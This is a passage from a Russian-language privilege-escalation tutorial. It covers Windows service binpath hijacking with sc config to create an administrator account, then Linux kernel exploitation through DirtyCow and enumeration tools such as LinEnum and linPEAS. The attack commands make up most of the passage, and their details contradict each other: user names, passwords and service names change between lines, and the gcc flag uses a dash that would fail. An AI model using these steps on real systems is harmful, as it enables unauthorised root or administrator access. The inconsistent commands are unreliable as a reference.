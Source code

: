 ```cmd
sc config vulnsrv binpath= "net user hacker 1337 /add &&
net localgroup Administrators john /add" type= interact
sc config upnphost obj= ".\LocalSystem" password=""
```

При следующем старте службы вместо ее исполняемого файла выполнится команда:

```cmd
net user john hello /add
net localgroup Administrators john /add
```

Команда добавит в систему нового пользователя hacker с паролем 1337. Остается только вручную перезапустить сервис:

```cmd
net stop upnphost && net start upnphost
```

# 4. Способы повышения привилегий в Linux

## Эксплойты ядра

Для перечисления (enumeration) возможных эксплойтов отлично подходит скрипт LinEnum.sh. Исходный код доступен на [GitHub](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh).

Скрипт определяет версию операционной системы и ядра, а также подбирает соответствующие уязвимости с exploit-db.com.

Для нашего случая подходит эксплойт CVE-2016-5195 (DirtyCow). Исходный код доступен на [GitHub](https://github.com/dirtycow/dirtycow.github.io).

Процесс компиляции эксплойта можно выполнять с разными параметрами. Если в комментариях к эксплойту не указаны иные рекомендации, используйте следующий способ по умолчанию:

```bash
gcc dirtycow.c –o dirtycow
```

Если все прошло успешно, то при вводе команды id вы должны увидеть что-то вроде этого:

```bash
id
uid=0(root) gid=0(root) группы=0(root)
```

Если эксплойт не сработал — не расстраивайтесь, а смело переходите к другому, пока не исчерпаете все возможные варианты.

### Некоторые инструменты автоматизации:

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [kernel-exploits](https://github.com/lucyoa/kernel-exploits)

## Сервисы, запущенные с правами root
